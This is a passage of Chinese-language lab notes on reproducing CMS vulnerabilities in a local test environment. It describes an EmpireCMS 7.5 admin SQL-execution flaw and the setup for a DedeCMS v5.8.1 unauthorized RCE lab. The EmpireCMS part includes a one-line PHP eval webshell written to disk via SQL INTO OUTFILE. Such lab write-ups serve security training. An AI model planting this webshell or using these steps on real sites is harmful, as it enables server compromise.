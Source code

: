 ```
EmpireCMS7.5版本中后台提供了执行SQL语句的功能，导致攻击者进入后台后可以使用任意的SQL语句，如果存在不安全的配置项，那么攻击者还可以通过执行SQL语句getshell

影响版本为 EmpireCMS &lt;= 7.5

```

```
靶机环境安装
打开phpstudy环境
下载empirecms
http://www.phome.net/download/

将upload文件夹解压到网站根目录
访问http://xxx.xxx.xxx.xxx/empire/e/install
按照提示进行安装



漏洞复现
访问并登录靶场页面(后台)
http://xxx.xxx.xxx.xxx/empire/e/admin

进入到对应的功能点
系统 -&gt; 备份与恢复数据 -&gt; 执行SQL语句

通过此处可以执行任意SQL语句
如果条件满足，那么可以通过SQL语句写入webshell
如：select '&lt;?php @eval($_POST["cmd"])?&gt;' into outfile
'C:\Users\27682\Desktop'

```

### 织梦cms漏洞

```
DedeCMS(织梦)自最初发布以来已有 16 年的历史，是一个集内容发布、编辑、管理检索等于一体的网站管理系统，凭借自身丰富的主题模板和简单易用、开源免费的特性获得了众多站长的青睐，国内有很多企业网站都是使用DedeCMS程序搭建

```

#### 未授权RCE漏洞(v5.8.1)

```
靶机环境安装
打开phpstudy环境
下载dedecms_v5.8.1
https://github.com/dedecms/DedeCMS/releases/tag/v5.8.1

将upload文件夹解压到网站根目录并改名为dedecms
访问http://xxx.xxx.xxx.xxx/dedecms

按照提示进行安装

```
